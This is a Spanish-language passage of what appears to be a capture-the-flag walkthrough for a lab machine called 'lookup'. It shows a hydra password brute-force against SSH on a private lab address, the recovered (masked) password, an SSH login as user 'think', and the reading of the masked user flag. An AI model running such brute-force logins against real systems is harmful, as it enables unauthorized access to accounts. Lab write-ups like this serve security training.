 ```sh
hydra -l think -P /home/kali/credenciales.txt 192.168.56.21 ssh -s 22

# Resultado:
[22][ssh] host: 192.168.56.21   login: think   password: joXXXXXXXXXXXXXX
```

Ahora que ya tenemos la contraseña, podemos intentar el acceso:

```sh
ssh think@192.168.56.21
think@192.168.56.21's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-156-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 25 Sep 2025 04:47:52 PM UTC

  System load:  0.02              Processes:                198
  Usage of /:   58.7% of 9.75GB   Users logged in:          0
  Memory usage: 37%               IPv4 address for enp0s17: 192.168.56.21
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

7 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Sep 24 17:04:49 2025 from 192.168.56.22

think@lookup:~$ id
uid=1000(think) gid=1000(think) groups=1000(think)
```

Y como podemos ver, tenemos acceso al usuario `think`. Ahora buscamos el archivo `usert.txt` para tener nuestra primera flag:

```sh
think@lookup:~$ ls
user.txt
think@lookup:~$ cat user.txt 
38XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```
